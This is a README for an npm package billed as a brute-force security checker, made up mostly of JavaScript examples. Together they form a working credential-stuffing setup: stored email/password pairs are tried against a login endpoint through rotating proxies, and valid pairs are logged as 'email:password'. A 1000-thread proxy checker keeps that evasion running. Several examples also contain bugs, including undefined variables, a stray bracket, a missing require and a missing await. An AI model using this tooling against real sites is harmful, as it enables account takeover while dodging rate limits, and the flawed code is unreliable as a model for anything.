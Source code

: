 # bruteforce-security-checker

By this module you can:
1. Test site for bruteforce security by implement HTTP/WS login requests
2. Test site accessibility on mass user signups.

Examples of usage in **/examples** directory


## Table of contents

- [Installation](#installation)
- [Documentation](#documentation)
- [Bruteforce](#bruteforce)
- [Service](#service)
- [Examples](#examples)
---

## Installation
```npm i @k7eon/bruteforce-security-checker --save```

## Documentation
For methods documentation visit [Doxdox generated docs](https://doxdox.org/k7eon/bruteforce-security-checker)

---------------------------------
# BruteForce
include:
```js
const b = require('@k7eon/bruteforce-security-checker').bruteforce;
// or
const {bruteforce} = require('@k7eon/bruteforce-security-checker');
```

---------------------------------
# Service class
Service is a class with some usefully methods

include:
```js
const Service = require('@k7eon/bruteforce-security-checker').Service;
// or
const {Service} = require('@k7eon/bruteforce-security-checker');
```

---------------------------------
## Examples

---------------------------------
#### Example of *Service* usage
```js
  // MySiteClass.js
  class MySiteClass extends Service {
    
    /**
    * if login success return cookies or null or throw HTTP layer exception;
    * @param login
    * @param password
    * @param agent      - socks proxy agent
    * @return {Promise<*>}
    */
    async login(login, password, agent=null) {
      
      let config = {
        method: 'POST',
        url: 'http://mysite.com/login',
        headers: {
          'accept':           'application/json, text/javascript, */*; q=0.01',
          'accept-language':  'en-US,en;q=0.5',
          'content-type':     'application/x-www-form-urlencoded; charset=UTF-8',
          'origin':           'http://mysite.com',
          'referer':          'http://mysite.com/login',
          'user-agent':       'Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 YaBrowser/18.1.1.835 Yowser/2.5 Safari/537.36',
          'x-requested-with': 'XMLHttpRequest',
        },
        form: {
          'username': login,
          'password': password,
        },
        json: true,
      } // like 'request/request' lib
      let {response, body} = this.r(config, agent);
      
      if (!body.success) return null;
      let logCookies = this.getSetCookies(response);
      return logCookies;
    }
  }
  module.exports = new MySiteClass();
```
More about request configs [there](https://github.com/request/request)


---------------------------------
#### Example of *Bruteforce* with *MySiteClass*
```js
const fs     = require('fs');
const b      = require('@k7eon/bruteforce-security-checker').bruteforce;
const mySite = require('./MySiteClass');
const FILE = {
  proxies:      'files/proxy_valid.txt',
  registered:   'files/registered.log',
  bad:          'files/bad.log',
  good:         'files/good.log',
  errors:       'files/errors_login.log',
};

b.createFilesIfNotExists(FILE);
b.loadRegisteredAccounts(FILE.registered);
b.removeAccountsFrom('email', FILE.bad);
b.loadProxyAgents(FILE.proxies);

b.setMetrics({'good':0, 'bad':0})
b.startShowingMetrics(10000);

b.start({
  THREADS:      1,
  whatToQueue:  'accounts',
  useProxy:     true,
  handlerFunc: async (task, agent) => {
    let account = task;
    console.log('account', account);
    let {email, password} = account;

    try {
      let cookie = await mySite.login(email, password, agent);

      if (!cookie) {
        console.log('bad');
        fs.appendFileSync(FILE.bad, email+'\n');
        b.metrics.bad++;
        return {agent};
      }
      if (cookie) {
        console.log('good');
        fs.appendFileSync(FILE.good, `${[email, password].join(':')]}\n`);
        b.metrics.good++;
        return {agent};
      }
    } catch (e) {
      console.log('error', e);
      brute.queue.push(account);  // recheck account
      fs.appendFileSync(FILE.errors, `${JSON.stringify({account, proxy: agent.options.host})}\n${e.stack}\n\n`);
      return {agent};
    }
  },
  drainCallback: () => {
    console.log('All accounts are checked');
  }
});
```

---------------------------------
#### Bruteforce proxy checker example
- Create proxy_checker.js and put content below:
```js
const request = require('request');
const rp = require('request-promise');
const brute = require('@k7eon/bruteforce-security-checker').bruteforce;
const FILE = {
  proxies:        'files/proxy.txt',
  valid_proxies:  'files/valid_proxies.txt',
};
// create empty files in they are not exists. Be careful, 
// create directory 'files' if not exists
brute.createFilesIfNotExists(FILE);

// For interval showing statistic
brute.setMetrics({'active': 0});
brute.startShowingMetrics(10000);

// Load proxies and create agents
brute.loadProxyAgents(FILE.proxies);
brute.start({
  THREADS: 1000,
  whatToQueue: 'agents',
  handlerFunc: async (task, t) => {
    let agent = task;

    try {
      await rp({
        url: 'https://api.ipify.org?format=json',
        method: 'GET',
        timeout: 60000,
        agent: agent,
      });
      let host = agent.options.host;
      fs.appendFileSync(FILE.valid_proxies, host+'\n');
      brute.metrics.active++;  // increment metric
    } catch (e) {
      // there all errors if HTTP layer. 
      // This proxy are not needed.
    }
    return {task, agent: t};
  },
  drainCallback: () => {
    console.log('drainCallback');
  }
});
```
- Create directory **files**
- Put some proxies in **files/proxy.txt**
- Run ```node proxy_checker.js```
